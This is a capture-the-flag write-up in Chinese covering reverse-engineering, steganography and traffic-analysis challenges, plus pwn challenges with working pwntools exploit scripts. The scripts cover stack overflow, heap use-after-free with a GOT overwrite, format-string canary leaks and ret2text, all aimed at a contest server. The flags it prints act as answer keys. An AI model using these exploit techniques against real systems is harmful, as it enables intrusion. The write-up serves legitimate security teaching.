








## reverse
###  Welcome
题目是明文


### Encryption
Aspack 加壳，使用esp定律脱壳后将算法逆向即可,算法如下
```c
int start()
{
  signed int v1; // edx
  int v2; // ecx
  const char *v3; // [esp+0h] [ebp-8h]
  const char *v4; // [esp+0h] [ebp-8h]
  const char *v5; // [esp+0h] [ebp-8h]
  int v6; // [esp+4h] [ebp-4h]

  sscanf_s("Firstly, show me your secret unsigned integer:", v3);
  strtoll("%u", &v6);
  v6 ^= 0xCAFEBABE;
  if ( v6 != 0xDEADBEEF )
  {
    sscanf_s("Wrong code", v4);
LABEL_3:
    ReleaseActCtx((HANDLE)0x5DC);
    return 0;
  }
  sscanf_s("And now, give me your flag:", v4);
  strtoll("%s", byte_403370);
  v1 = strlen(byte_403370);
  v2 = 0;
  if ( v1 > 0 )
  {
    while ( 1 )
    {
      byte_403370[v2] ^= v2 + 0x1A;
      if ( byte_403370[v2] != byte_4021F0[v2] )
        break;
      if ( ++v2 >= v1 )
        goto LABEL_7;
    }
    sscanf_s("This is not the flag that I want", v5);
    goto LABEL_3;
  }
LABEL_7:
  sscanf_s("You Win! Post your secret code, flag and your writeup to our website plz", v5);
  vwscanf("pause");
  return 0;
}
```

```py
e=[
  0x7c,0x77, 0x7D, 0x7A, 0x65, 0x5A, 0x14, 0x72, 0x5B, 0x7C, 0x7C, 
  0x15, 0x74, 0x78, 0x1B, 0x47, 0x69, 0x59, 0x55, 0x5D, 0x5A, 
  0x1E, 0x00, 0x5F, 0x4F
  ]

f=[]
len_e=len(e)
i=0
while(i<len_e):
    f.append(e[i]^(i+0x1a))
    i=i+1
print(str(bytearray(f)))
# output:flag{E4Sy_X0R_3nCrypt10n}
```

### maze
貌似有tls反调试，可以直接再main函数下断进行调试，不过直接查找字符串就可以看到迷宫
```
#-############################
#-###########----------------#
#-###########-#########-######
#-------------#########-######
####-####-#############-######
#####-------###########-######
#####-###############---######
#-----############----########
##################-###########
```
根据逻辑，看样子只用输入wasd就好了

最后得到结果
input: 
> sssddddddddddddwwddddddddddssssssaasaaas
output:
> Congratulations!
> flag{HUST_CyberSecurity}

### Mang
可以看到有三段md5，分别解开后得到lyjjj tql wsl，中间要用`_`得到`lyjjj_tql_wsl` 这个作为rc4解密的key，解开flag得到`flag{l3h_Plastic_Memory}`
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *v3; // eax
  char *v4; // ebx
  _BYTE *v5; // esi
  int v6; // edx
  void *v8; // [esp+1Ch] [ebp-180h]
  char v9; // [esp+28h] [ebp-174h]
  int v10; // [esp+38h] [ebp-164h]
  int v11; // [esp+3Ch] [ebp-160h]
  int v12; // [esp+40h] [ebp-15Ch]
  int v13; // [esp+44h] [ebp-158h]
  int v14; // [esp+48h] [ebp-154h]
  int v15; // [esp+4Ch] [ebp-150h]
  int v16; // [esp+90h] [ebp-10Ch]

  __main();
  v3 = (char *)malloc(0xFu);
  *(_DWORD *)v3 = 0;
  *((_DWORD *)v3 + 1) = 0;
  v4 = v3;
  *((_DWORD *)v3 + 2) = 0;
  *((_WORD *)v3 + 6) = 0;
  v3[14] = 0;
  v5 = malloc(0x1000u);
  memset(v5, 0, 0x1000u);
  v8 = malloc(0x100u);
  memset(v8, 0, 0x100u);
  puts("Please input something...");
  if ( scanf("%s", v5) > 50 )
    goto LABEL_12;
  strncpy((char *)v8, v5, 5u);
  v10 = 0;
  v11 = 0;
  v12 = 1732584193;
  v13 = -271733879;
  v14 = -1732584194;
  v15 = 271733878;
  MD5Update(&v10, v8, strlen((const char *)v8));
  MD5Final((unsigned int *)&v10, &v9);
  if ( memcmp(&v9, &firstMd5, 0x10u) )
    goto LABEL_12;
  if ( v5[5] != '_' ) //concat with '_'
    goto LABEL_12;
  strcat(v4, v5);
  memset(v8, 0, 0x100u);
  puts("Please input something...");
  getchar();
  gets(v5);
  strncpy((char *)v8, v5, 3u);
  v10 = 0;
  v11 = 0;
  v12 = 1732584193;
  v13 = 4023233417;
  v14 = 2562383102;
  v15 = 271733878;
  MD5Update(&v10, v8, strlen((const char *)v8));
  MD5Final((unsigned int *)&v10, &v9);
  if ( memcmp(&v9, &secondMd5, 0x10u) )
    goto LABEL_12;
  if ( v5[3] != '_' )
    goto LABEL_12;
  strcat(v4, v5);
  fwrite("Please input something...\n", 1u, 0x1Au, &__iob[1]);
  fgets(v5, 4096, (FILE *)__iob[0]._ptr);
  v10 = 0;
  v11 = 0;
  v12 = 'gE#\x01';
  v13 = 4023233417;
  v14 = 2562383102;
  v15 = 271733878;
  MD5Update(&v10, v5, strlen(v5));
  MD5Final((unsigned int *)&v10, &v9);
  if ( !memcmp(&v9, &thirdMd5, 0x10u) )
  {
    strcat(v4, v5);
    memset(&v16, 0, 0x100u);
    rc4_init((int)&v16, (int)v4, strlen(v4));
    rc4_crypto((int)&v16, &flag, strlen(&flag));
    fputs(&flag, &__iob[1]);
    getchar();
    free(v4);
    free(v8);
    free(v5);
    v6 = 0;
  }
  else
  {
LABEL_12:
    fwrite("Oops!...\n", 1u, 9u, &__iob[1]);
    v6 = 1;
  }
  return v6;
}
```

## misc
### Picture
1. 先用binwalk解开后得到一个压缩包，解压后看到`lsb-stego.png`和`password.txt`
2. 用password.txt里的密码解lsb隐写，得到一个压缩包，解压得到flag:`flag{l3h_no_game_no_life}#`

3. 相关工具https://github.com/livz/cloacked-pixel
  
### traffic1

#### 解压tips
>tip1:对Rar文件头的十六进制数要敏感  
tip2:密码在流量包中（HTTP）  
\- .... . ..--.- .--. .- ... ... .-- --- .-. -.. ..--.- .. ... ..--.- . -. -.-. .-. -.-- .--. - . -.. ..--.- -... -.-- ..--.- .--- ... ..-. ..- -.-. -.-

解开第三段莫尔斯电码得到：`the_password_is_encrypted_by_jsfuck`

##### 分析流量包
导出http对象

可以看到有异常的流量，打开导出的流量，得到jsfuck代码


扔到chrome的f12里，拿到一个密码`Thi5_my_p@ssW0rd`

用010editor打开secret.log, ctrl+f 搜索字符串`5261`(rar文件头)

或者用wireshark搜，因为secret是蓝牙的log文件

导入后得到一个压缩包，用jsfuck得到的密码解压后，拿到flag:`flag{l3h_tr4_ffic_4n4_lys3}`

## pwn

### stack
简单的栈溢出
```py
from pwn import *
DEBUG=0
if DEBUG:
    p=process('./stack')
else:
    p=remote('159.65.68.241', 10003)

p.sendline('A'*0x3A+'B'*4+p32(0x80491E2))
p.interactive()
```
flag{e46f5601-086c-4f06-bcb2-a021e104c5e5}

### vitamin
三个功能，创建修改删除
```c
void __fastcall __noreturn sub_4009D6(const char *a1, int *a2)
{
  int v2; // [rsp-14h] [rbp-14h]
  unsigned __int64 v3; // [rsp-10h] [rbp-10h]

  v3 = __readfsqword(0x28u);
  while ( 1 )
  {
    sub_400B71();
    __isoc99_scanf(&unk_400E14, &v2);
    getchar();
    switch ( v2 )
    {
      case 2:
        sub_400C74();
        puts("Done.");
        break;
      case 3:
        sub_400CEB();
        puts("Done.");
        break;
      case 1:
        create();
        puts("Done.");
        break;
      default:
        puts("No such choice.\n");
        break;
    }
  }
}
```
删除功能的free并没有清空指针，造成uaf漏洞。
```c
__int64 sub_400C74()
{
  if ( !buf || dword_6020A4 )
  {
    puts("No pill.\n");
  }
  else
  {
    free(buf); //buf not nullptr
    dword_6020A4 = 1;
    puts("Done.");
  }
  return 0LL;
}
```
观察malloc大小，需要在内存中寻找0x71~0x7f的size，
```c
__int64 create()
{
  __int64 v1; // [rsp-38h] [rbp-38h]
  unsigned __int64 v2; // [rsp-10h] [rbp-10h]

  v2 = __readfsqword(0x28u);
  buf = (char *)malloc(0x68uLL);
  qword_6020F0 = (__int64)malloc(0x10uLL);
  dword_6020A4 = 0;
  puts("Give me your formula:");
  gets(&v1);
  strncpy(buf, (const char *)&v1, 0x28uLL);
  puts("This is your pill");
  puts(buf);
  return 0LL;
}
```
整个exp分三步，先利用uaf 伪造在`bss段`的chunk,再修改buf的地址到got表，最后将`got['free']`改为后门地址。
```py
from pwn import *
context.log_level='debug'
context.terminal=['bash']
#p=process('./vitamin')
p=remote('159.65.68.241', 10001)
def debug(addr = '0x400BC7'):
    gdb.attach(proc.pidof(p)[0]+1, "b *" + addr)
    raw_input('debug:')

def create(formula):
    p.recvuntil(':\n')
    p.sendline('1')
    p.recvuntil(':\n')
    p.sendline(formula)

def change(formula):
    p.recvuntil(':\n')
    p.sendline('3')
    p.recvuntil(':\n')
    p.sendline(formula)

def take():
    p.recvuntil(':\n')
    p.sendline('2')
#debug()

free_got=0x602018
create('windforce')
take()
change(p64(0x6020dd))
create(p64(0x6020dd))
create('A'*11+p64(free_got))
change(p64(0x400d58))
p.sendline('2')
p.interactive()
```
flag{b49b2c44-35a1-4be5-9dfa-c173f20e60ee}

### RandGame
只有三次输出机会，每次输入的字符串都会被hash(),然后结果和一个随机数比较。
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  signed int v3; // eax
  signed int v5; // [esp+0h] [ebp-Ch]

  setbufs();
  puts("This is a simple game. You have 3 chances.");
  v5 = 3;
  signal(14, exit_func);
  while ( 1 )
  {
    v3 = v5--;
    if ( !v3 )
      break;
    Game();
  }

  return 0;
}
显然输入的字符串是可以覆盖到到随机数`(int)v4~v7`,只需要预先跑出hash值，再覆盖随机数，就能过check，通过check后会输出字符串，存在字符串格式化漏洞。  
由于程序开启了PIE stack等保护，不能直接ret2text。要先泄露canary的值，然后泄露程序加载地址，最后再修改ret地址到后门。
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
```c
unsigned int Game()
{
  unsigned int v0; // eax
  unsigned int v1; // eax
  char s; // [esp+Ch] [ebp-10Ch]
  char v4; // [esp+106h] [ebp-12h]
  char v5; // [esp+107h] [ebp-11h]
  char v6; // [esp+108h] [ebp-10h]
  char v7; // [esp+109h] [ebp-Fh]
  char v8; // [esp+10Ah] [ebp-Eh]
  unsigned int v9; // [esp+10Ch] [ebp-Ch]

  v9 = __readgsdword(0x14u);
  memset(&s, 0, 0x100u);
  v0 = time(0);
  srand(v0);
  v4 = rand();
  v5 = rand();
  v6 = rand();
  v7 = rand();
  v8 = 0;
  puts("What's your magic string?");
  gets(&s);
  v1 = Hash(&s);
  if ( v1 == *&v4 )
  {
    puts("Congraz!! Your magic string is:");
    printf(&s);
  }
  else
  {
    puts("Wrong!");
  }
  return __readgsdword(0x14u) ^ v9;
}
```
```py

from pwn import *
context.terminal=['bash']
#context.log_level='debug'
#p=process('./game')
p=remote('159.65.68.241',10002)
p.recvuntil('?')
p.sendline('%71$p'.ljust(250,b'\x00')+p32(0x365))
p.recvuntil(':\n')
canary=p.recvuntil('W')[:-1]
print('canary is '+ canary)
#gdb.attach(p)
#pause()
p.sendline('%3$p'.ljust(250,'\x00')+p32(0x19))
p.recvuntil(':\n')
base=p.recvuntil('W')[:-1]
print('base is '+ base)
p.sendline('\x00'*0x100+p32(int(canary,16))+'A'*12+p32(int(base[:-3]+'2f5',16)))
p.interactive()
```
flag{15c36180-35bf-47af-87d9-6bcde64ff6b2}

## pubg cheating tools
程序有两个选项，一个是买，一个是激活，买没什么用处，只有一句`puts("send 2 BTC wallet 114514, and you'll get the download url");`

激活的逻辑是,判断是否存在key.txt，不存在则从`/dev/urandom`读取16字节并写入
```c
int sub_401E99()
{
  int days; // [rsp+Ch] [rbp-D4h]
  char buf; // [rsp+10h] [rbp-D0h]
  char v3; // [rsp+20h] [rbp-C0h]
  char ptr; // [rsp+90h] [rbp-50h]
  char v5; // [rsp+A0h] [rbp-40h]
  FILE *stream; // [rsp+D0h] [rbp-10h]
  FILE *s; // [rsp+D8h] [rbp-8h]

  s = fopen("./key.txt", "r");
  if ( s )
  {
    fclose(s);
  }
  else
  {
    s = fopen("./key.txt", "w");
    stream = fopen("/dev/urandom", "r");
    if ( !stream )
    {
      perror("fopen");
      exit(1);
    }
    fread(&ptr, 0x10uLL, 1uLL, stream);
    fwrite(&ptr, 0x10uLL, 1uLL, s);
    fflush(s);                                  // write key file
    fclose(s);
  }
  memset(&ptr, 0, 0x40uLL);
  s = fopen("./key.txt", "r");
  fread(&ptr, 0x10uLL, 1uLL, s);
  fclose(s);
  v5 = 0;
  puts("please input your subscripton time(days):");
  __isoc99_scanf("%d", &days);
  getchar();
  if ( days > 7 )
    return puts("could not subscibe for over a week");
  sub_401DDC(days, &ptr);
  s = fopen("./key.txt", "r");
  memset(&ptr, 0, 0x40uLL);
  fread(&ptr, 0x10uLL, 1uLL, s);
  fclose(s);
  puts("please input your invitation code:");
  read(0, &buf, 0x10uLL);
  v3 = 0;
  if ( !strcmp(&buf, &ptr) )
  {
    sub_401BA0();
    handler();
  }
  return puts("wrong code");
}
```
程序输入只有days可控，观察函数`sub_401DDC`可以发现`unsigned int`和`int`做了比较，那么当day为负数的时候，for循环就会超时，最后被预先设置的`alarm`中止，由于fopen的特性，key.txt文件就会被清空。那么在下一步只需输入16个0x00即可绕过验证。
```c
int __fastcall sub_401DDC(int day, void *ptr)
{
  char s; // [rsp+10h] [rbp-50h]
  FILE *stream; // [rsp+50h] [rbp-10h]
  unsigned int i; // [rsp+5Ch] [rbp-4h]

  stream = fopen("./key.txt", "w");
  for ( i = 0; day + 1 > i; ++i )
  {
    memset(&s, 0, 0x40uLL);
    sub_401B55((__int64)ptr, (__int64)&s, 0x10u);
    memset(ptr, 0, 0x40uLL);
    strcpy((char *)ptr, &s);
  }
  fwrite(ptr, 0x20uLL, 1uLL, stream);
  return fclose(stream);
}
```
绕过验证后到达函数`sub_401BA0`，很简单的一个栈溢出，将ret改写为后门即可。
```c
int sub_401BA0()
{
  char buf; // [rsp+0h] [rbp-20h]

  puts("Please input your name:");
  read(0, &buf, 0x60uLL);
  return puts("Lisence created.");
}
```
exp如下，需要注意的是由于只有5秒时间- -,getshell后需要立即`cat flag`(懒得再写脚本了)
```py
from pwn import *
import time
import hashlib
context.log_level='debug'
#p=process('./pubg')
p=remote('159.65.68.241',9001)
p.recvuntil('code')
p.sendline('2')
p.recvuntil(':')
p.sendline('-2') #crash
time.sleep(5)
p.close()

#p=process('./pubg')
p=remote('159.65.68.241',9001)
p.recvuntil('code')
p.sendline('2')
p.recvuntil(':')
p.sendline('-1')
p.recvuntil(':')
p.send('\x00'*16)
p.recvuntil(':')
p.send('A'*0x28+p64(0x401BED)) #ret2text
p.interactive()
```
flag{L3H_h3r3_1s_y0ur_ch1cken_dinner}